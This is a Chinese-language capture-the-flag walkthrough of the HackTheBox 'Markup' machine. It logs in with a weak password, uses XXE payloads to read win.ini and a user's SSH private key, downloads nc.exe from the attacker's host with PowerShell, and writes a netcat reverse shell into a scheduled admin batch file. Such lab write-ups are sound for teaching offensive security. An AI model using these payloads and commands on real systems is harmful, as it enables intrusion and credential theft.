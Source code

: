 # 7x17 HTB系列——[Markup]XXE注入

## 一、信息收集

1. 端口扫描，开放了22、80、443端口，80、443端口开放有web服务，中间件为Apache 2.4.41，编程语言为PHP 7.2.28，OpenSSL 1.1.1c，服务器系统为Windows

   ![1.png](img/HTB/Markup/1.png)

2. 打开网站，直接就是一个登录页面

   ![2.png](img/HTB/Markup/2.png)

3. 尝试一下常见的弱口令，使用admin:password登录成功

   ![3.png](img/HTB/Markup/3.png)

4. 在Order栏中，发现一个表单

   ![4.png](img/HTB/Markup/4.png)

5. 看一看网页源代码，在注释中发现有用信息，像是一个用户名

   ![5.png](img/HTB/Markup/5.png)

6. BurpSuite抓包，熟悉的xml，有漏洞的话可能存在xxe注入，即xml外部实体注入

   ![6.png](img/HTB/Markup/6.png)

## 二、getshell

1. 修改数据包body为以下格式，重放数据包

   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
   <order>
   <quantity>
   2
   </quantity>
   <item>
   &test;
   </item>
   <address>
   17th Estate,CA
   </address>
   </order>
   ```

   ![7.png](img/HTB/Markup/7.png)

2. 服务器正常回显，爆出了几个字段，验证确实存在xxe注入，利用xxe尝试读取该用户的ssh密钥，成功读取到密钥文件

   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
   <order>
   <quantity>
   2
   </quantity>
   <item>
   &test;
   </item>
   <address>
   17th Estate,CA
   </address>
   </order>
   ```

   ![8.png](img/HTB/Markup/8.png)

3. 将id_rsa保存到kali，然后通过该rsa对服务器进行ssh连接，成功获取shell

   ![9.png](img/HTB/Markup/9.png)

4. 在Desktop找到user.txt

   ![10.png](img/HTB/Markup/10.png)

## 三、权限提升

1. 查看当前用户权限

   ```shell
   whoami /priv
   ```

   ![11.png](img/HTB/Markup/11.png)

2. cd到C盘根目录下，查看有什么文件夹，发现有一个Log-Management文件夹，该文件夹中有一个job.bat批处理脚本

   ![12.png](img/HTB/Markup/12.png)

3. type查看job.bat文件内容，该脚本以管理员权限调用了一个叫做wevtutil.exe的程序，看起来像是清除日志的，我们可以尝试利用这个进行提权

   ![13.png](img/HTB/Markup/13.png)

4. 用icacls命令查看该批处理文件的权限，该脚本拥有system和Administrator权限

   ![14.png](img/HTB/Markup/14.png)

5. 要通过该脚本获取反向shell，只需要通过netcat在批量处理中创建有效负载文件即可，在kali上下载windows的netcat二进制文件，然后开启一个简单的web服务，在目标主机上通过powershell命令将nc.exe下载到传到目标主机上

   ```powershell
   Powershell -c "IWR -useBasicParsing http://10.10.16.9:8000/nc.exe -o
    nc.exe"
   ```

   ![15.png](img/HTB/Markup/15.png)

6. 然后在目标主机上通过netcat利用job.bat创建反向shell到kali上，kali开启nc监听

   ```powershell
   echo C:\Log-Management\nc.exe -e cmd.exe 10.10.16.9 4444 > C:\Log-Management\job.bat
   sudo nc lvnp 4444
   ```

   ![16.png](img/HTB/Markup/16.png)

7. 成功获取到管理员权限，在管理员桌面找到root.txt

   ![17.png](img/HTB/Markup/17.png)

